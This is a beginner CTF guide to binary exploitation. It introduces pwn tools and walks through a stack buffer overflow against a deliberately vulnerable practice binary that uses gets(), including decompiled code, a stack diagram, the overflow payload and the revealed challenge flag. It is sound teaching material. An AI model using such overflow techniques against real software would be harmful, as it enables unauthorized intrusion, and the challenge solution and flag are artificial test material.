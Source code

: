 # Binary Exploitation / Pwn
Binary Exploitation or *Pwn* are problems on which the contestants are challenged to *hack* a program. One main thing to notice is that in this type of problems, the contestants are  given a connection to the remote challenge server, so **the flag is not on the program itself** but somewhere in the remote server. The usual way of solving binary exploitation problems is to hack and debug the program on your local machine first (may involve writing a fake flag), writing a script to do the same thing to the remote server, then executing the script. Pwn problems are mostly binary (ELF/Compiled C) program exploitation. Typical vulnerabilities in these programs include buffer overflow, format string attack, integer overflow, heap exploitation and more.

## Table of Contents
- [Introduction](../introduction.md)
- [Web Exploitation](../web/web.md)
- [Digital Forensics](../foren/foren.md)
- [Cryptography](../crypto/crypto.md)
- **[Binary Exploitation](../pwn/pwn.md)**
- [Reverse Engineering](../rev/rev.md)

## Tools
The tools you might need to solve Pwn problems:
- Debugger ([gdb](http://www.gdbtutorial.com/tutorial/how-install-gdb), [gdb-peda](https://github.com/longld/peda)) - to RE compiled programs.
- Disassembler ([IDA](https://www.hex-rays.com/products/ida/), [Ghidra](https://ghidra-sre.org/), etc.) - to RE compiled programs.
- Scripting tool ([pwntools](https://github.com/Gallopsled/pwntools)) - to automate input to the program.
- etc.

## Example Problem
You can find the file [here](./example/README.md).

Follow the instruction to setup the remote server.

Notice that in the **real** CTF, the contestants are only given the [binary](./chall/bof0) and the connection to the remote server. This binary program is the exact same program running on the server.

*If you want to run the challenge with docker you may need to install [docker](https://www.docker.com/) and [docker-compose](https://docs.docker.com/compose/install/) on your machine.*


## How to Solve
### Observation

First off, try connecting to the *remote* server:
```
$ nc localhost 10001
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: 
```
*You can close the connection with **Ctrl-C***

Try the program locally:
```
$ ./bof
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: 
```
The program asks for an input, if our input changes the local variable from `'stif'` to `'h3h3'`, we get the flag.

To understand the program better, let's open it up in IDA (or gdb if you are hardcore).

Launch IDA, load the program, and disassemble the main function (F5).
```
  ...
  setbuf(_bss_start, 0LL);
  puts("hi! change the string variable to h3h3 and you'll get your flag!");
  vuln();
  exit(0);
}
```

Seems that the main function calls the `vuln()` function, let's disassemble that function.
```
  ...
  char v1; // [rsp+8h] [rbp-18h]
  char s1[8]; // [rsp+10h] [rbp-10h]  <- allocation
  ...

  ...
  *(_QWORD *)s1 = 0x66697473LL;       <- s1 = 'stif' (or 0x66697473LL in hex)
  printf("your input: ");
  gets(&v1);                          <- our input!!!
  printf("string is: %s\n", s1);
  if ( !strcmp(s1, "h3h3") )          <- compare s1 to h3h3
  {
    puts("congrats! here's your flag");
    readFlag();                       <- this function reads the flag
  }
  ...
}
```

From that disassembled code, we know that the program asks for our input **USING `gets()`**, store it in `v1`, and then compares `s1` (which is not our input) to `'h3h3'`.

At first this may seem impossible, how can we change a pre-initialized variable given our control to another variable. The key is on how the program asks for our input, using `gets()`. The function `gets()` is an unsafe function that **DOESN'T LIMIT THE CHARACTER ENTERED**, this means that we can bypass the initially allocated space for our input. You can see how `v1` and `s1` are allocated on the header of the disassembled function in IDA.

Here is an illustration on how the variables `v1` and `s1` are allocated (in reference to `rbp`). Keep in mind that in C, 1 character = 1 byte.
```
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
|   |   |   |   |   |   |   |   | s | t | i | f |   |   |   |   | -> rbp
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
 -18 -17 -16 -15 -14 -13 -12 -11 -10 -0f -0e -0d -0c -0b -0a -09
  |____________v1_____________|   |_____________s1____________|
```

So, to change `s1` to `'h3h3'`, we need to input any 8 characters (from rbp-0x18 to rbp-0x11) plus `'h3h3'` itself. The following illustration pictures the input `'GANTENGZh3h3'`.
```
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
| G | A | N | T | E | N | G | Z | h | 3 | h | 3 |   |   |   |   | -> rbp
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
 -18 -17 -16 -15 -14 -13 -12 -11 -10 -0f -0e -0d -0c -0b -0a -09
  |____________v1_____________|   |_____________s1____________|
```
### Solve
Now try inputing the payload to the program locally.
```
$ ./bof
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: GANTENGZh3h3
congrats! here's your flag
Segmentation fault (core dumped)
```

You will not get the flag this way because the program is being run locally in your machine, hence the `SEGFAULT`.
Try connecting to the server and input the payload.
```
$ nc localhost 10001
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: GANTENGZh3h3
congrats! here's your flag
CTFGUIDE{3z_b0o00ooo0ff}
```

